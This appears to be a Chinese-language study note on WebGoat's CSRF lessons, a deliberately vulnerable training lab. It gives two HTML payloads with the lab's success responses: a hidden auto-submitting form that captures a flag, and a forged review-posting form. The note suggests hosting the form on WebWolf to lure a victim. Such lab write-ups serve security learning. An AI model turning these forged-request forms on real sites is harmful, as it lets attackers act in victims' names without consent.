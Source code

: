 # WebGoat CSRF 学习笔记

参考如下博客文章，十分感谢：

* https://pjchender.dev/internet/is-note-webgoat/#cross-site-scripting-xss
* https://blog.csdn.net/elephantxiang/article/details/117827103



## 1. What is a Cross-site request forgery?



## 2. CSRF with a GET request



## 3. Basic Get CSRF Exercise

CSRF Payload：

```html
<!DOCTYPE html>
<html>
<head>
    <title>3.Basic Get CSRF Exercise</title>
</head>
<body>
    <h1>3.Basic Get CSRF Exercise</h1>
    <form action="http://127.0.0.1:8081/WebGoat/csrf/basic-get-flag" method="POST">
        <input type="hidden" name="csrf" value="false">
        <input type="submit" name="submit">
    </form>
</body>
</html>
```

```
{
  "flag" : 13643,
  "success" : true,
  "message" : "Congratulations! Appears you made the request from a separate host."
}
```



## 4. Post a review on someone else’s behalf

CSRF Payload：因提交评论需要 cooike 以及跨域限制，故可利用 WebWolf 将此文件上传至服务器，然后诱导用户点击

```html
<!DOCTYPE html>
<html>
<head>
    <title>4.Post a review on someone else’s behalf</title>
</head>
<body>
    <h1>4.Post a review on someone else’s behalf</h1>
    <form method="POST" action="http://localhost:8080/WebGoat/csrf/review">
        <input type="text" name="reviewText" placeholder="Add a Review">
        <input type="text" name="stars" placeholder="Add the star number">
        <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
        <input type="submit" name="submit" value="Submit review">
    </form>
</body>
</html>
```

```
{
  "lessonCompleted" : true,
  "feedback" : "It appears you have submitted correctly from another site. Go reload and see if your post is there.",
  "output" : null,
  "assignment" : "ForgedReviews",
  "attemptWasMade" : true
}
```

